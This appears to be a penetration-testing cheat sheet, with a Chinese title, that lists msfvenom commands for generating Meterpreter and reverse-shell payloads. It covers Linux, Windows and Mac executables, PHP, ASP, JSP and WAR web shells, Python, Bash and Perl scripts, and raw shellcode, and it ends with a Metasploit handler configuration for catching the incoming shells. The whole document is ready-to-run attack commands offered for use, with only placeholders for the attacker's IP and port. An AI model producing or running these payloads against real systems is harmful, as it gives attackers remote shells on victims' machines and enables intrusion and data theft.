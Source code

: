 # Msfvenom生成各类Payload命令

Often one of the most useful (and to the beginner underrated)  abilities of Metasploit is the msfpayload module. Multiple payloads can  be created with this module and it helps something that can give you a  shell in almost any situation. For each of these payloads you can go  into msfconsole and select exploit/multi/handler. Run ‘set payload’ for  the relevant payload used and configure all necessary options (LHOST,  LPORT, etc). Execute and wait for the payload to be run. For the  examples below it’s pretty self explanatory but LHOST should be filled  in with your IP address (LAN IP if attacking within the network, WAN IP  if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

```
msfvenom -l
```

Binaries

**Linux** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

Web Payloads

**PHP** 

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php



cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Scripting Payloads

**Python** 

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash** 

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl** 

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to  valid parameters. Msfvenom will output code that is able to be cut and  pasted in this language for your exploits.

**Linux Based Shellcode** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to  be in a position to receive your incoming shells. Handlers should be in  the following format.

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘